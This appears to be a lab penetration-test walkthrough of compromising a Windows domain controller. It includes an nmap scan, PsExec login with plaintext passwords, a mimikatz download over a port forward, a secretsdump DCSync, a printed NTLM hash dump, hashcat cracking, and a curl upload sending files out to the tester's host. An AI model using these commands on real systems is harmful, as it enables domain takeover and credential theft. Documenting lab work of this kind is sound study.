










# DC

## Enumeration

Machine is hosted at `10.10.XXX.250`. Output from Nmap scan run [here](./#nmap):

```
Nmap scan report for dc.skylark.com (10.10.175.250)
Host is up (0.052s latency).
Not shown: 65505 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-28 00:56:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SKYLARK.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SKYLARK.com0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SKYLARK
|   NetBIOS_Domain_Name: SKYLARK
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: SKYLARK.com
|   DNS_Computer_Name: dc.SKYLARK.com
|   DNS_Tree_Name: SKYLARK.com
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-28T00:59:08+00:00
| ssl-cert: Subject: commonName=dc.SKYLARK.com
| Not valid before: 2024-07-27T20:58:16
|_Not valid after:  2025-01-26T20:58:16
|_ssl-date: 2024-08-28T00:59:50+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
64196/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
64197/tcp open  msrpc         Microsoft Windows RPC
64202/tcp open  msrpc         Microsoft Windows RPC
64209/tcp open  msrpc         Microsoft Windows RPC
64210/tcp open  msrpc         Microsoft Windows RPC
64217/tcp open  msrpc         Microsoft Windows RPC
64234/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:38:22 (VMware)
| smb2-time: 
|   date: 2024-08-28T00:59:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE
HOP RTT      ADDRESS
1   51.54 ms dc.skylark.com (10.10.175.250)
```

## Foothold

Before machine enumeration is even started, initial access is provided as Administrator [via the `SKYLARK\backup_service` account](./#credential-spray). I can use Impacket's PsExec to access the machine:


```bash
impacket-psexec SKYLARK/backup_service:It4Server@dc.skylark.com
```


<figure><figcaption><p>SYSTEM access on DC</p></figcaption></figure>

`SYSTEM` access achieved.

## Post Exploit

### Remote Port Forwarding

At this point I need to be able to download some tools and upload whatever of interest I find. For this purpose I will set up a remote port forward in the `ligolo-ng agent` running on `AUSTIN02`. I start with an HTTPS forward by running this command in my proxy session:

```
listener_add --addr 10.10.198.254:8443 --to 192.168.45.157:443
```

<figure><figcaption><p>Port forward set up from proxy session</p></figcaption></figure>

I validate the listener is set up by checking the listening network ports on AUSTIN02:

```
netstat -ano
```

<figure><figcaption><p>Listener on port 8443</p></figcaption></figure>

I can now download tools using this port forward:


```
curl.exe -k https://10.10.198.254:8443/windows/exe/post-exploit/mimikatz_x64.exe -o C:\Users\Administrator\wkg\mimikatz.exe
```


This is extremely slow but it works:

<figure><figcaption><p>Mimikatz downloaded via port forward</p></figcaption></figure>

### DC Sync

Given how slow the download was I decide it is probably better to run the DCSync from my machine. For that reason I elect to use Impacket's SecretsDump:


```bash
impacket-secretsdump -outputfile skylark_dcsync SKYLARK/backup_service:'It4Server'@dc.skylark.com
```


This dumps a ton of information:

<figure><figcaption><p>Output of DCSync</p></figcaption></figure>

<figure><figcaption><p>Files generated by SecretsDump</p></figcaption></figure>

At this point the domain is mostly compromised but I need to sift through all of this to find some final items:

1. Method to access `ARCHIVE`
2. What is `VM2` and how can I access it?

#### Cracking Hashes

I decide to try cracking the hashes. Maybe one of the passwords will work for SSH on the Linux machines or something.

Most of the hashes are in the `.ntds` file output by SecretsDump:


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:55375d3c25c50db8a6064014f092646d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f51626f1a535ded1f4eca61ac79cd621:::
print_service:1107:aad3b435b51404eeaad3b435b51404ee:e49318f199b289e7911fe80dbd409558:::
backup_service:1108:aad3b435b51404eeaad3b435b51404ee:c661afc50412ad75d385423eff86b584:::
helpdesk_setup:1109:aad3b435b51404eeaad3b435b51404ee:ce8d4011c647ceaf6da4a07f64a84361:::
baop__user:1110:aad3b435b51404eeaad3b435b51404ee:1b66bce9e7304ebfdf504ae238939646:::
SKYLARK.com\kiosk:1111:aad3b435b51404eeaad3b435b51404ee:92dd9eace3cf9ea33a95953aef6845ba:::
f.miller:1112:aad3b435b51404eeaad3b435b51404ee:c800e20406307c4907e16cc06751bfa1:::
k.smith:1113:aad3b435b51404eeaad3b435b51404ee:d2a87ca4d6735870dc2357a83960c379:::
s.ahmed:1114:aad3b435b51404eeaad3b435b51404ee:8c6b64bbce4f31456ecdf0743288036f:::
k.kelley:1115:aad3b435b51404eeaad3b435b51404ee:181952f9a80b5cc384de108c3d9537b2:::
n.engels:1116:aad3b435b51404eeaad3b435b51404ee:1b66bce9e7304ebfdf504ae238939646:::
l.nguyen:1117:aad3b435b51404eeaad3b435b51404ee:e06f9df9075d6aa5eb88e99a53af7754:::
j.jones:1118:aad3b435b51404eeaad3b435b51404ee:e06f9df9075d6aa5eb88e99a53af7754:::
d.johnson:1119:aad3b435b51404eeaad3b435b51404ee:2b251b5aed412d251e5ed83d3ea7afd5:::
j.jameson:1120:aad3b435b51404eeaad3b435b51404ee:e06f9df9075d6aa5eb88e99a53af7754:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:973f432e86980d7464f8311f6e347c8a:::
AUSTIN02$:1103:aad3b435b51404eeaad3b435b51404ee:11d8a37deb1e72b300ae2c1136aa1406:::
HOUSTON01$:1121:aad3b435b51404eeaad3b435b51404ee:baeb2d65235a81882470912c36a027bb:::
LAB$:1122:aad3b435b51404eeaad3b435b51404ee:a007567dac037e3e76149873cbc4fb8c:::
CLIENT02$:1123:aad3b435b51404eeaad3b435b51404ee:f0f07723ed1981c756d1c120cc71ddb2:::
MAIL$:1124:aad3b435b51404eeaad3b435b51404ee:2ffb70c2cfba8af9de0f8b81a845596a:::
CLIENT01$:1125:aad3b435b51404eeaad3b435b51404ee:99c98957428bf0c9342231bd48e43cd8:::
PREPROD$:1132:aad3b435b51404eeaad3b435b51404ee:cf541dd8fbdacd907c8c24fcb974b067:::
ARCHIVE$:3101:aad3b435b51404eeaad3b435b51404ee:9828184955fd85c13a7c27438064e5cc:::

```


* Interestingly the machine hashes seem to contain some references to machine names I have not seen yet:
  * `CLIENT01`
  * `CLIENT02`
  * `PREPROD`

For now, I grab just the hashes and save them in a `NtdsHashes.ntlm` file which I then crack with `hashcat`:


```bash
hashcat -m 1000 -a 0 -o Ntds.cracked -r /usr/share/hashcat/rules/best64.rule NtdsHashes.ntlm /usr/share/wordlists/rockyou.txt
```


Only 2 of the hashes crack but one was `backup_service` which I already had. The second one turns out to be the hash for `helpdesk_setup` which I verify with CME:

<figure><figcaption><p>Cracked hashes</p></figcaption></figure>

<figure><figcaption><p>CME for helpdesk_setup</p></figcaption></figure>

I am not sure how helpful this will be but I add it to my list of credentials anyway:


```
SKYLARK\kiosk:XEwUS^9R2Gwt8O914     Found in RDWeb instructions on SINGAPORE06
SKYLARK\backup_service:It4Server    Kerberoasted as kiosk from AUSTIN02
SKYLARK\helpdesk_setup:Tuna6Helper  DCSync to obtain hash and then cracked with hashcat
```


### Manual Enumeration

#### False Flag

While I am wandering around the machine I find a potentially interesting directory at `C:\Users\Administrator\Documents\Security\`. I am not sure what is here but I navigate into the directory and use this command to zip it up:

```
powershell Compress-Archive . security.zip
```

I then upload it using my [port forward](dc.md#remote-port-forwarding):


```
curl.exe -k -F "file=@security.zip" https://10.10.198.254:8443/upload.php
```


Upon examination I only find a `.sdb` and `.rnf` file:

<figure><figcaption><p>Weird files in Security</p></figcaption></figure>

Despite some Googling I could not make heads or tails of these files. I keep them in case I am wrong but move on.

#### Common File Searches

I start going through my common file searches using the wrapping my `Get-ChildItem` PowerShell searches in `powershell -c "..."`.&#x20;

#### Possible Credential Files

My search command for potential credential text files turned up something:


```powershell
Get-ChildItem -Path C:\ -Include 'cred*.txt', 'pass*.txt' -Force -Recurse -ErrorAction SilentlyContinue
```


<figure><figcaption><p>Credentials text file</p></figcaption></figure>

I probably should have seen it without theses commands given it is on the `C:\` drive but oh well.

I validate the found credentials with CME (WinRM) for `PARIS03` and RDP for `SYDNEY08`. Both sets of credentials work:

<figure><figcaption><p>RDP session as local Administrator on SYDNEY08</p></figcaption></figure>

<figure><figcaption><p>evil-winrm as Administrator on PARIS03</p></figcaption></figure>

At this point I decide I can spend some time on other machines.

